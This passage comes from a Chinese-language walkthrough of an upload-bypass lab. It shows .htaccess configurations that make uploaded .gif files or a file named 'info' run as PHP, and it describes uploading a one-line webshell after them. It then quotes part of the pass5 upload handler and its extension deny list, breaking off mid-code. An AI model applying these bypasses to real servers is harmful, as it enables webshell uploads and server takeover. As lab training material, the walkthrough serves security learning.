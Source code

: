 ```
<IfModule mime_module>

AddType application/x-httpd-php .gif

</IfModule>
```



第三种、精确控制能被解析成php代码的文件，比较隐蔽
evil.gif即为上传的🐎名称+后缀

```
<FilesMatch "evil.gif"> 	#当前目录下，若匹配到evil.gif文件，则被解析成PHP代码执行

SetHandler application/x-httpd-php
AddHandler php5-script .gif    

</FilesMatch>
```

或

```
<FilesMatch "info">			#当前目录下，若匹配到名为info的文件，都会被解析为php代码
    SetHandler application/x-httpd-php
</FilesMatch>
```



### bypass

上传`.htaccess`文件：

```
<FilesMatch "info">
    SetHandler application/x-httpd-php
</FilesMatch>
```

然后上传名为info，任意后缀名的一句话🐎即可



## pass5（黑名单-利用.user.ini本地包含）

### 分析

在第四关基础上.htaccess也被禁用了

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
```